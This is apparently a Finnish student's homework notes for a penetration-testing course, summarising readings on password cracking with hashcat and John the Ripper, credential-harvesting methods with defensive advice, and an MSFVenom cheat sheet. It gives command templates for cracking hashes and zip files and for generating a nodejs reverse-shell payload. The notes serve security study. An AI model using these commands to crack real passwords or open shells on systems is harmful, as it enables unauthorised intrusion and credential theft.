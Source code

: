 # [H4 Marraskuu2024!](https://terokarvinen.com/tunkeutumistestaus/#h4-marraskuu2024) (Karvinen 2024)

## x)  Lue/katso ja tiivistä.

### Cracking Passwords with Hashcat (Karvinen 2022)

- salasanat tallennettu tiivisteinä
  - tiivisteitä testataan sanalistoja vastaan
- hashcatia asennettaessa kannattaa myös asentaa hashid
  - hashid auttaa selvittämään tiivisteen algoritmi
- hashcatin tavanomainen käyttö
  - `hashcat -m [algoritmin hashcat id] '[tiiviste]' [sanalista] -o [tiedostonimi outputille]`

### Crack File Password With John (Karvinen 2023)

- John the Ripperillä voidaan murtaa tiedostojen salauksia
- binääri täytyy itse kääntää lähdekoodista
- kloonaa git repo, tarkista ympäristö ja tee Makefile(./configure), käännä lähdekoodi (make, ks. Makefilestä oikeat komennot ja parametrit)
- johnin tavanomainen käyttö tiedoston salauksen purkamiseen
  - tiedostosta tiivste irti
    - `polku/john/run/zip2john [tiedosto] >[tiedosto].hash`
  - aja john
    - `polku/john/run/john [tiedosto].hash`

### Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials (Santos et al. 2017)

- helppo tapa saada käyttäjätunnuksia on napata niitä suojaamattomasta verkosta (esim. kahvilan wifi hotspot)
- murrettavia tunnuksia voi saada myös nmapin skripteillä, metasploit moduuleilla tai esim. yksinkertaisesti palvelimelta kysymällä
- johnin ja hashcatin käyttöä
- suojautuminen:
  - käyttäjä/kuluttaja: älä käytä samaa salasanaa, ota käyttöön MFA kun mahdollista, käytä pidempiä salasanoja, älä käytä sanakirjaa
  - organisaatiot: MFA-tuki, älä rajaa salasanojen pituutta liian lyhyeksi, pitää olla tietoinen hyvistä ja huonoista tiivistealgoritmeistä, salasanojen suolaus, sertifikaattiperusteinen autentikointi (public-key algoritmit)

### HackTricks: MSFVenom - CheatSheet (HackTricks 2024)

- perushomma
  - ``msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>``
- nodejs
  - ``msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)``
  - minulle on epäselvää, missä tilanteessa tätä voitaisiin hyödyntää?



## Lähteet

HackTricks, 2024. MSFVenom - CheatSheet. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom Luettu: 2024-11-15

Karvinen, T. 2022. Cracking Passwords with Hashcat. Luettavissa: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/ Luettu: 2024-11-15

Karvinen, T. 2023. Crack File Password With John. Luettavissa: https://terokarvinen.com/2023/crack-file-password-with-john/ Luettu: 2024-11-15

Karvinen, T. 2024. Tunkeutumistestaus. H4 Marraskuu!. Luettavissa: https://terokarvinen.com/tunkeutumistestaus/#h4-marraskuu2024 Luettu: 2024-11-15

Santos, O., Sternstein, J., Taylor, R., McCoy, C. 2017. Security Penetration Testing The Art of Hacking Series LiveLessons. Katsottavissa (vaatii kirjautumisen): https://learning.oreilly.com/course/security-penetration-testing/9780134833989/ Katsottu: UPDATE!!!
